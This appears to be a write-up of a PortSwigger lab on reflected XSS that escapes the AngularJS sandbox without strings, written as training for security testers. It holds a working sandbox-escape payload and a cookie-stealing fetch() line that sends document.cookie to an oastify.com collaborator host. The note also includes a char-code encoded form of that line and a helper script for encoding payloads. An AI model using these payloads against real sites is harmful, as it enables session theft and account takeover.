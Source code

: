 [z3nsh3ll - YouTube Video give a great explanation of this Reflected XSS with AngularJS Sandbox Escape Without Strings](https://youtu.be/gKLHVT67sU0?si=tqQMb5Y6xLA-jgR4)  

>***Identify*** the `angular.module` in JavaScript source code:  

![angularJS-sandbox-escape-identify.png](/images/angularJS-sandbox-escape-identify.png)  

>The `key` variable value `search` is injected into the JavaScript created dynamically.  
>No obvious security issue present here. However, the security of this code depends on how this controller and the extracted values are used in the back-end.  

>The `$parse` method evaluates the AngularJS expression `$scope.query`.  

>Using the `&` to add second key value pair to test payload dynamic code generated.  

![angularJS-sandbox-escape-add-2nd-key pair](/images/angularJS-sandbox-escape-add-2nd-keypair.png)  

>Changing the second added key value name to expression to determine if evaluated, `/?search=key1value&7*7=payload` and math result is 49.  

![angularJS-sandbox-escape-2nd-key pair-eval](/images/angularJS-sandbox-escape-2nd-keypair-eval.png)  

>Constructing a payload fails when using `alert()` as the second key name in how angularJS compile the code through the parser.  

>[AngulaJS sandbox - See PortSwigger Client-Side template injection documents](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)  

>[PortSwigger CheatSheet Reference Sandbox 1.4.4 escape](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-dom--1.4.4-(without-strings))  

```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

>Collaborator payload ***cookie stealer***:  

```
x=fetch('https://m9w8haeauh0frftrtjdvexkyrpxgl69v.oastify.com/?z='+document.cookie)
```

>The ASCII decimal values for each character in the above payload string, separated by commas. Each number represents the ASCII decimal value of the corresponding character in the payload string.  

```
120,61,102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,103,112,57,111,49,56,57,51,106,97,107,49,100,122,101,55,117,116,118,50,114,107,118,114,48,105,54,57,117,122,105,111,46,111,97,115,116,105,102,121,46,99,111,109,47,63,122,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41
```  

>Python script to convert any payload to ASCIII decimal values:  

```python
import sys

print('Python String to ASCII Converter!')
if len(sys.argv) != 2:
    print("Usage: Python ascii_converter.py 'Payload_String'")
    sys.exit(1)

input_string = sys.argv[1]
ascii_values = [str(ord(char)) for char in input_string]

output = ",".join(ascii_values)
print(output)
print('PortSwigger Expert Academy Labs!')
```  
